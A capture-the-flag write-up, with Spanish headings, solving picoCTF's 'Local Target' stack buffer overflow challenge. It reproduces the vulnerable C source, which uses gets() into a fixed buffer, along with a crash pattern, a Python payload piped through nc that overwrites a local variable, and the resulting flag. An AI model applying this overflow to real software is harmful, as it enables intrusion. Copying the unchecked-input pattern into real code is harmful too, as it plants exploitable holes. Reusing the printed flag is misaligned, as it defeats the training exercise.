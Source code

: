 # Local Target

# Descripción
Smash the stackCan you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/518/local-target). You can view source [here](https://artifacts.picoctf.net/c/518/local-target.c). And connect with it using:`nc saturn.picoctf.net 63755`
# Pistas
Do anything you can to change `num`.

When you change `num`, view the value as hexadecimal.
# Solución

```bash
adalh4ck1ng-picoctf@webshell:~$ ls
README.txt  local-target  local-target.c
adalh4ck1ng-picoctf@webshell:~$ cat local-target.c 
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
adalh4ck1ng-picoctf@webshell:~$ chmod +x ./local-target
adalh4ck1ng-picoctf@webshell:~$ ./local-target 
Enter a string: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

num is 1633771879
Bye!
Segmentation fault (core dumped)

# 24 letters + 41 delimeter pattern
adalh4ck1ng-picoctf@webshell:~$ python -c "print('A'*24 + '\x41')" | ./local-target
Enter a string: 
num is 65
You win!
Cannot open file.
adalh4ck1ng-picoctf@webshell:~$ python -c "print('A'*24 + '\x41')" | nc saturn.picoctf.net 63755
Enter a string: 
num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
```

# Bandera
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}